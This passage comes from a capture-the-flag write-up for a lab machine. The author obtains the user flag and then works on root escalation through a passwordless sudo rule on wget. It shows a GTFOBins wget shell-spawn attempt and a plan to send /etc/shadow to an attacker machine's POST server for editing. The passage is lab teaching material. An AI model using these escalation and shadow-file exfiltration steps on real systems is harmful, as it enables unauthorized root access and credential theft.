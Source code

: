 We are logged in as jessie ! Let's get the user flag :  
```
jessie@CorpOne:~$ find ./ -type f -name "*user*.txt"
./Documents/user_flag.txt
jessie@CorpOne:~$ cat Documents/user_flag.txt 
*****************************
```

Now, it's time for privileges escalation.

## Privileges escalation

Let's see if we have sudo permissions :  
```
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
jessie@CorpOne:~$
```

The only thing we can run as root without any password is `/usr/bin/wget`. Let's see on [GTFOBins](https://gtfobins.github.io/gtfobins/wget/) how we can use 
wget to get root :  
![](https://i.imgur.com/6nbE6Kz.jpg)  

Let's try this :  
```
jessie@CorpOne:~$ TF=$(mktemp)
jessie@CorpOne:~$ chmod +x $TF
jessie@CorpOne:~$ echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
jessie@CorpOne:~$ sudo wget --use-askpass=$TF 0
wget: unrecognized option '--use-askpass=/tmp/tmp.UPdotlbEW4'
Usage: wget [OPTION]... [URL]...

Try `wget --help' for more options.
```

There is no option `--use-askpass`... Maybe it's an older version of wget... But there is another way to try to get root. We get upload and download files using wget :  
![](https://i.imgur.com/URxJPvr.jpg)  

We can try to send the `/etc/shadow` file to our attacker machine, edit it, and then send it back to the target machine. Let's try this. First, we need to start a 
web server that accepts POST requests. There is a python script [here](https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7) that is capable of 
running a webserver that accepts both GET and POST requests. Let's use it. First, I download and start the webserver on my machine :  
```
attacker@AttackBox:~/Wgel_CTF$ wget https://gist.githubusercontent.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7/raw/a6a1d090ac8549dac8f2bd607bd64925de997d40/server.py
--2023-01-16 17:22:37--  https://gist.githubusercontent.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7/raw/a6a1d090ac8549dac8f2bd607bd64925de997d40/server.py
Résolution de gist.githubusercontent.com (gist.githubusercontent.com)… 185.199.108.133, 185.199.109.133, 185.199.111.133, ...
Connexion à gist.githubusercontent.com (gist.githubusercontent.com)|185.199.108.133|:443… connecté.
requête HTTP transmise, en attente de la réponse… 200 OK
Taille : 1575 (1,5K) [text/plain]
Sauvegarde en : « server.py »

server.py                     100%[================================================>]   1,54K  --.-KB/s    ds 0s      
```